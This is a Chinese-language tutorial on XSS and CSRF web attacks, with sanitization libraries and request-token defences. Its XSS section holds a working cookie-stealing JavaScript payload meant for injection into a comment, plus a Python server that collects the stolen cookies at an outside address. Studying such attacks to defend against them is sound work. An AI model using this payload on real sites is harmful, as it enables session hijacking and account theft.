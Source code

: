 #  XSS 与 CSRF 两种跨站攻击

- XSS：跨站脚本（Cross-site scripting）

- CSRF：跨站请求伪造（Cross-site request forgery）

## XSS

>XSS 全称“跨站脚本”，是注入攻击的一种。其特点是不对服务器端造成任何伤害，而是通过一些正常的站内交互途径，  
例如发布评论，提交含有 JavaScript 的内容文本。  
这时服务器端如果没有过滤或转义掉这些脚本，作为内容发布到了页面上，其他用户访问这个页面的时候就会运行这些脚本。 

- 也可以是盗号或者其他未授权的操作——我们来模拟一下这个过程，先建立一个用来收集信息的服务器：
```
#!/usr/bin/env python
#-*- coding:utf-8 -*-

"""
跨站脚本注入的信息收集服务器
"""

import bottle

app = bottle.Bottle()
plugin = bottle.ext.sqlite.Plugin(dbfile='/var/db/myxss.sqlite')
app.install(plugin)

@app.route('/myxss/')
def show(cookies, db):
    SQL = 'INSERT INTO "myxss" ("cookies") VALUES (?)'
    try:
        db.execute(SQL, cookies)
    except:
        pass
    return ""

if __name__ == "__main__":
    app.run()
```
- 在某一个页面的评论中注入这段代码：

// 用 <script type="text/javascript"></script> 包起来放在评论中
```
(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);
```
于是每个访问到含有该评论的页面的用户都会遇到麻烦——他们不知道背后正悄悄的发起了一个请求，是他们所看不到的。

而这个请求，会把包含了他们的帐号和其他隐私的信息发送到收集服务器上。

- 这里附上一些“白名单”消毒 HTML 标签和属性（Sanitize HTML）的开源解决方案
- Python: [lxml.html.clean](http://lxml.de/lxmlhtml.html#cleaning-up-html) / [bleach](https://github.com/jsocol/bleach)
- Ruby: [Sanitize](https://github.com/rgrove/sanitize/)
- JavaScript: [sanitize-html](https://github.com/punkave/sanitize-html)
- PHP: [htmlpurifier](http://htmlpurifier.org/)

## CSRF 冒充用户之手: CSRF 顾名思义，是伪造请求，冒充用户在站内的正常操作

>起初一直弄不清楚 CSRF 究竟和 XSS 有什么区别，后来才明白 CSRF 和 XSS 根本是两个不同维度上的分类。
XSS 是实现 CSRF 的诸多途径中的一条，但绝对不是唯一的一条。一般习惯上把通过 XSS 来实现的 CSRF 称为 XSRF。

CSRF 的全称是“跨站请求伪造”，而 XSS 的全称是“跨站脚本”

- 提高的一个门槛，就是改良站内 API 的设计。对于发布帖子这一类创建资源的操作，应该只接受 POST 请求，而 GET 请求应该只浏览而不改变服务器端资源。  
当然，最理想的做法是使用REST 风格 [2] 的 API 设计，GET、POST、PUT、DELETE 四种请求方法对应资源的读取、创建、修改、删除。  
现在的浏览器基本不支持在表单中使用 PUT 和 DELETE 请求方法，我们可以使用 ajax 提交请求（例如通过 jquery-form 插件，我最喜欢的做法），  
也可以使用隐藏域指定请求方法，然后用 POST 模拟 PUT 和 DELETE （Ruby on Rails 的做法）。  
这么一来，不同的资源操作区分的非常清楚，我们把问题域缩小到了非 GET 类型的请求上——攻击者已经不可能通过发布链接来伪造请求了，  
但他们仍可以发布表单，或者在其他站点上使用我们肉眼不可见的表单，在后台用 js 操作，伪造请求。  

- 方法就是“请求令牌”

## 参考资料
- https://blog.tonyseek.com/post/introduce-to-xss-and-csrf/
- https://juejin.im/post/5bc009996fb9a05d0a055192
